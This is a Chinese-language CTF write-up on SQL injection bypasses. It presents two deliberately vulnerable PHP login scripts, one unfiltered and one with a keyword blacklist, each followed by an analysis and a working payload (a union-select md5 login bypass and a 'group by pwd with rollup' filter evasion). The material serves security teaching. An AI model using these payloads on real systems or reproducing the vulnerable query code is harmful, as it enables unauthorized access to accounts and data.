 ### SQL注入绕过

#### 例题1
```php
<?php
if($_POST[user] && $_POST[pass]) {
	//省略了mysql连接过程
    $user = $_POST[user];
    $pass = md5($_POST[pass]);

    $sql = "select pw from php where user='$user'";
    $query = mysql_query($sql);
    if (!$query) {
        printf("Error: %s\n", mysql_error($conn));
        exit();
    }
    $row = mysql_fetch_array($query, MYSQL_ASSOC);
    
    if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
        echo "<p>Logged in! Key:************** </p>";
    }
    else {
        echo("<p>Log in failure!</p>");
    }
}
?>
```
#### 分析
该文件接受user和pass两个参数，通过构造合适的sql语句进行SQL注入成功登录即可获得key。代码中没有过滤任何SQL语句，因此可以有多种方法进行payload的构造。

#### payload
```
user=' union select md5(1)#
pass=1 
```

#### 例题2
>题目地址:http://www.shiyanbar.com/ctf/1940
#### 代码
```php
<?php
error_reporting(0);
function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}
//执行的开始部分
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){ 
    AttackFilter($key,$value,$filter);
}

//连接语句省略
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql); 
if (mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
#### 分析
该PHP文件接收两个参数，uname和pwd。文件中包含了对一些SQL关键字和操作符的过滤，没有限制limit,with,rollup,offset等关键字。

根据代码中的条件，只有查询结果中只有1行，且输入密码必须和查询的密码对应才可以得到flag。

这里可以借助with rollup操作来实现SQL注入，该关键字可以将行中每一列的结果进行汇总，如果是数字，得到数字的和；如果是非数字字符串，得到0；

#### payload
```html
uname=1' or 1=1 group by pwd with rollup limit 1 offset 2#
pwd=
<!--pwd为空，uname的最终显示起始行是试出来的-->
<!--payload解释:得到所有用户名和密码，将密码汇总，选出null对应的行-->
```

#### 参考文章
with rollup
>https://www.cnblogs.com/phpper/p/9384614.html

limit宇offset
>https://blog.csdn.net/l1212xiao/article/details/80520330